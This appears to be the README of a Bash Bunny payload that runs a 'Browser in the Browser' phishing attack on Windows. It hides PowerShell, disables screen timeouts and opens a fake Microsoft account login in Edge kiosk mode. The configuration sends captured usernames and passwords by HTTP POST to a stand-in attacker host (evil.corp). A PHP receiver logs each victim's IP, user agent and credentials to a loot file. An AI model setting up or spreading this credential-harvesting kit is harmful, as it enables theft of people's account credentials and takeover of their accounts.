 # "Microsoft Windows" Browser in the Browser (BitB)

- Title:         "Microsoft Windows" Browser in the Browser (BitB)
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Phishing

## Description

1) Hide "PowerShell" window.
2) Change "monitor-timeout (AC and DC)" at NEVER with "powercfg" utility.
3) Change "standby-timeout (AC and DC)" at NEVER with "powercfg" utility.
4) Copies and hides the phishing folder in the current user's directory.
5) Full screen opening of the phishing HTML page using "Microsoft Edge" in kiosk mode.
6) The username/password will be sent by HTTP POST to the URL specified in the "DROP_URL" constant.

## Configuration

From "payload.txt" change the values of the following constants :
```bash

######## INITIALIZATION ########

readonly BB_LABEL="BashBunny"

# Choose "dark" or "light"
#
readonly BITB_THEME="dark"

# Title of the window
#
readonly BITB_TITLE="Outlook - free personal email and calendar from Microsoft"

# URL in the address bar
#
readonly BITB_URL="https://login.live.com/login.srf?wa=wsignin1.0&rver=7.0.6737.0&wp=MBI_SSL&wreply=https%253a%252f%252foutlook.live.com%252fowa%252f"

# Content of the navigation window
#
readonly BITB_TEMPLATE="microsoft-account.html"

# Destination of the form data
#
readonly DROP_URL="http://evil.corp:8080/drop.php?ZXZpbC5jb3Jw.png"


```

Example of code for the data receiver :
```php
<?php

if (
    $_SERVER['REQUEST_METHOD'] === 'POST'
) {

    $remote_addr = (string) $_SERVER['REMOTE_ADDR'];
    $user_agent = (string) $_SERVER['HTTP_USER_AGENT'];
    $username_password = (string) implode(',', $_POST);

    /*
        touch ./aGFrNQ_loot.log
        chown www-data:www-data ./aGFrNQ_loot.log
    */
    $loot = fopen('aGFrNQ_loot.log', 'a');
    fwrite($loot, "##\n");
    fwrite($loot, $remote_addr . "\n");
    fwrite($loot, $user_agent . "\n");
    fwrite($loot, $username_password . "\n");
    fwrite($loot, "##\n");
    fclose($loot);

}

http_response_code(302);
header('Location: https://hak5.org/');
exit;

?>
```

## Screenshots

>
> Dark Theme
>

![bitb-dark](./readme_files/bitb-dark.png)

>
> Light Theme
>

![bitb-light](./readme_files/bitb-light.png)

